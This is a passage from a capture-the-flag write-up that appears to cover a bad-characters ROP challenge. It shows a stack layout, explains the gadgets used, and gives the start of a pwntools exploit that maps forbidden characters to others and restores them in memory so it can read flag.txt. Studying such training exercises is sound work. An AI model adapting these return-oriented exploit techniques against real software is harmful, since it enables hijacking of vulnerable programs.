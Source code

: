 ```asm
|       0x400630        |
|    rop.pop_r14_r15    |
|         0x1           |
|   str_addr + 0x6      |
|      0x400630         |
|                       |
|       &pop_rdi        |
|       str_addr        |   
|      &print_file      |
|         ...           |
-------------------------
         STACK
```

The first part contains the padding (`"A" * 40`) and stores the mapped string into memory (in the `.data` section described before), loading the values in the available registers and finally calling a gadgets shown in `usefulGadgets` (`mov QWORD PTR [r13+0x0],r12`). 

The middle part changes the string (`flag.txt`) char by char (the mapping is shown in the exploit).

At the end the address of the string is put into `rdi` and the `print_file` function is called.

## Exploit

```python
from pwn import *

"""
    This function takes as input a string stored in str_addr
    and eventually changes its content by unmapping the mapped badchars,
    if it contains them.
    The unmapping is done by substracting the decimal ASCII value of the
    mapped char with the original one using this specific gadget:
    sub BYTE PTR [r15],r14b; ret.
"""
def unmap(rop: ROP, badchars, badchars_mapping, string, str_addr):
    offsets = [string.index(c) for c in string if c in badchars] 
    for offset in offsets:
        # pop r14, pop r15
        rop.raw(rop.r14_r15)       
        idx = badchars.index(string[offset])
        diff = ord(badchars_mapping[idx]) - ord(badchars[idx]) 
        rop.raw(p64(diff))
        rop.raw(p64(str_addr + offset))
        # sub BYTE PTR [r15],r14b; ret 
        rop.raw(p64(0x400630))

""" 
    This function takes as input the filename of the executable and returns
    a ROP chain.
"""
def build_rop_chain(binary_name):   
    """ 
    - Define a mapping for each char in badchars. 
    - Once the string is the memory, exploit gadgets to change it
        to the original one.
    - Since in this specific executable each badchar's successor (with the
        respect of the ASCII table) isn't a badchar, we define this mapping:
        x --> y, g --> h, a --> b, . --> /
    """
    badchars = ['x', 'g', 'a', '.'] 
    badchars_mapping = [chr(ord(c) + 1) for c in badchars]

    # ELF and ROP objects
```